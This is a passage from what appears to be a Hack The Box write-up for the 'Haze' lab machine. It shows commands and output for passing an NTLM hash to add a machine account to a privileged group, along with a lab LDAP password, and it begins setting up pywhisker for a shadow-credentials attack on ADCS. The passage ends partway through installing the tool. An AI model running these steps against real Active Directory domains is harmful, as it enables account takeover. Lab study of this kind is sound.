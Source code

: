 The final step was to add `Haze-IT-Backup$` as a member to the `Support_Services` group.
```
fcoomans@kali:~/htb/haze$ pth-net rpc group addmem "Support_Services" "Haze-IT-Backup$" -U "HAZE/Haze-IT-Backup$%00000000000000000000000000000000:4de830d1d58c14e241aff55f82ecdba1" -S "dc01.haze.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
```

`nxc` confirmed that `Haze-IT-Backup` is now a member of the `Support_Services` group.
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 --groups Support_Services
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             Haze-IT-Backup
```

I was stuck here for quite a while!
But remembered that the server also runs an Active Directory Certificate Services (ADCS) Certificate Authority (CA) to issue certificates.  
Can this somehow be exploited?

#### ADCS

I researched and found these very interesting articles on Kerberos authentication using ADCS:
https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials
https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash

If `Haze-IT-Backup$` through it's membership to `Support_Services` has permission to request certificates for users, then this can be abused to take over that account.

The articles states that the tool `pywhisker` can be used to request the certificate from ADCS.
`PKINITtools` can be used to request a Kerberos TGT by using the certificate.  
The NTLM hash for the account can then be retrieved.

The `pywhisker` repo is cloned from https://github.com/ShutdownRepo/pywhisker
```
fcoomans@kali:~/htb/haze$ git clone https://github.com/ShutdownRepo/pywhisker.git
Cloning into 'pywhisker'...
remote: Enumerating objects: 235, done.
remote: Counting objects: 100% (106/106), done.
remote: Compressing objects: 100% (40/40), done.
remote: Total 235 (delta 75), reused 75 (delta 66), pack-reused 129 (from 1)
Receiving objects: 100% (235/235), 2.10 MiB | 8.45 MiB/s, done.
Resolving deltas: 100% (115/115), done.
```

A Python virtual environment named `venv_pywhisker` is created and `pywhisker` is installed using `pip`.
```
fcoomans@kali:~/htb/haze$ python -m venv venv_pywhisker

fcoomans@kali:~/htb/haze$ . ./venv_pywhisker/bin/activate

(venv_pywhisker)fcoomans@kali:~/htb/haze$ cd pywhisker

(venv_pywhisker)fcoomans@kali:~/htb/haze/pywhisker$ pip install .
Processing /home/fcoomans/htb/haze/pywhisker
  Installing build dependencies ... done
  Getting requirements to build wheel ... done
  Preparing metadata (pyproject.toml) ... done
Collecting impacket (from pywhisker==0.1.0)
  Using cached impacket-0.12.0-py3-none-any.whl
Collecting ldap3 (from pywhisker==0.1.0)
  Using cached ldap3-2.9.1-py2.py3-none-any.whl.metadata (5.4 kB)
<SNIP>

```